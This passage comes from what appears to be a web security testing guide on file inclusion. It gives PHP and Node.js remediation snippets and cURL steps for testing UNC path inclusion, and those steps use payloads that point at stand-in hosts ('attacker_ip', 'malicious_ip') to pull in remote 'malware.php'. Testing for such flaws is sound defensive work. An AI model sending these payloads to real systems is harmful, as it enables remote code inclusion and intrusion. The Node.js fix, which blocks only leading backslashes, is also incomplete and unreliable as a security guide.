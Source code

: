 **Remediation**:
- Restrict inclusions (PHP):
  ```php
  <?php
  $file = $_GET['home'];
  $allowed = ['index.html', 'about.html'];
  if (!in_array($file, $allowed)) {
      http_response_code(403);
      echo json_encode(['error' => 'Invalid file']);
      exit;
  }
  include "Pages/$file";
  ?>
  ```

**Tip**: Save cURL commands and responses to a file (e.g., `curl -i ... > output.txt`). Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., HTTP responses).

### 8. Test UNC Path Inclusion (Windows/SMB) with cURL

**Objective**: Ensure the application blocks UNC path inclusion.

**Steps**:
1. Identify a file parameter vulnerable to inclusion (e.g., `file` in `index.php`).
2. Test UNC path inclusion:
   ```bash
   curl -i "http://example.com/index.php?file=\\\\attacker_ip\\share\\malware.php"
   ```
3. Test another UNC path:
   ```bash
   curl -i "http://example.com/index.php?file=\\\\malicious_ip\\share\\script.txt"
   ```
4. Analyze responses; expected secure response blocks UNC paths.

**Example Secure Response**:
```
HTTP/1.1 403 Forbidden
Content-Type: text/html
<h1>Error</h1>
<p>Access to UNC paths is blocked.</p>
```

**Example Vulnerable Response**:
```
HTTP/1.1 200 OK
Content-Type: text/html
<h1>Malicious File Inclusion</h1>
<p>Connecting to SMB server...</p>
```

**Remediation**:
- Block UNC paths (Node.js):
  ```javascript
  app.get('/include', (req, res) => {
      const file = req.query.file;
      if (file.startsWith('\\\\')) {
          return res.status(403).json({ error: 'UNC paths not allowed' });
      }
      res.sendFile(path.join(__dirname, 'Uploads', file));
  });
  ```
